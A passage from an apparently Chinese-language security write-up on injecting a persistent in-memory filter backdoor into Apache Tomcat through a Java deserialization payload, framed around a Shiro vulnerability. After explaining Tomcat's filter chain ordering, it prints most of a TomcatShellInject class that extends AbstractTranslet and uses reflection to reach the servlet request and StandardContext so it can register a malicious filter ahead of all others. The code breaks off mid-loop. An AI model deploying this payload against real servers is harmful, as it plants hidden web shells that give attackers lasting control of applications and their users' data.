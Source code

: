 没错，它遍历了filterDefs，一个个实例化成ApplicationFilterConfig添加到filterConfigs了。

这两个问题解决了，是不是就完成了呢，其实还没有，还差一个优化的地方，因为我们想要把filter放到最前面，在所有filter前执行，从而解决shiro漏洞的问题。

也简单，我们看回`org.apache.catalina.core.ApplicationFilterFactory#createFilterChain`的代码：

    // Add the relevant path-mapped filters to this filter chain
    for (int i = 0; i < filterMaps.length; i++) {
        if (!matchDispatcher(filterMaps[i] ,dispatcher)) {
            continue;
        }
        if (!matchFiltersURL(filterMaps[i], requestPath))
            continue;
        ApplicationFilterConfig filterConfig = (ApplicationFilterConfig)
            context.findFilterConfig(filterMaps[i].getFilterName());
        if (filterConfig == null) {
            // FIXME - log configuration problem
            continue;
        }
    }

创建的顺序是根据filterMaps的顺序来的，那么我们就有必要去修改我们添加的filter顺序到第一位了，最后，整个第二步骤的代码如下：

    import com.sun.org.apache.xalan.internal.xsltc.DOM;
    import com.sun.org.apache.xalan.internal.xsltc.TransletException;
    import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
    import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
    import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
    import java.io.IOException;
    import javax.servlet.Filter;
    import javax.servlet.FilterChain;
    import javax.servlet.FilterConfig;
    import javax.servlet.ServletException;
    import javax.servlet.ServletRequest;
    import javax.servlet.ServletResponse;

    /**
     * @author threedr3am
     */
    public class TomcatShellInject extends AbstractTranslet implements Filter {

        static {
            try {
                /*shell注入，前提需要能拿到request、response等*/
                java.lang.reflect.Field f = org.apache.catalina.core.ApplicationFilterChain.class
                    .getDeclaredField("lastServicedRequest");
                f.setAccessible(true);
                ThreadLocal t = (ThreadLocal) f.get(null);
                ServletRequest servletRequest = null;
                //不为空则意味着第一次反序列化的准备工作已成功
                if (t != null && t.get() != null) {
                    servletRequest = (ServletRequest) t.get();
                }
                if (servletRequest != null) {
                    javax.servlet.ServletContext servletContext = servletRequest.getServletContext();
                    org.apache.catalina.core.StandardContext standardContext = null;
                    //判断是否已有该名字的filter，有则不再添加
                    if (servletContext.getFilterRegistration("threedr3am") == null) {
                        //遍历出标准上下文对象
                        for (; standardContext == null; ) {
                            java.lang.reflect.Field contextField = servletContext.getClass().getDeclaredField("context");
                            contextField.setAccessible(true);
                            Object o = contextField.get(servletContext);
                            if (o instanceof javax.servlet.ServletContext) {
                                servletContext = (javax.servlet.ServletContext) o;
                            } else if (o instanceof org.apache.catalina.core.StandardContext) {
                                standardContext = (org.apache.catalina.core.StandardContext) o;